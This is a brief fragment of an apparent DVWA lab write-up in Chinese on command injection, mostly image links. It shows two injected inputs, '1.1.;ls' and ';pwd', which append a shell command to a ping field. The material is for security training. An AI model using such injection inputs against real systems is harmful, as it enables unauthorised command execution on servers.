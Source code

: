 ![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%207.png)

### 直接跳過 ping

```c
1.1.;ls
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%208.png)

```c
;pwd
```

![Untitled](DVWA%2018a0425eb14f4c03822e8c563383e612/Untitled%209.png)

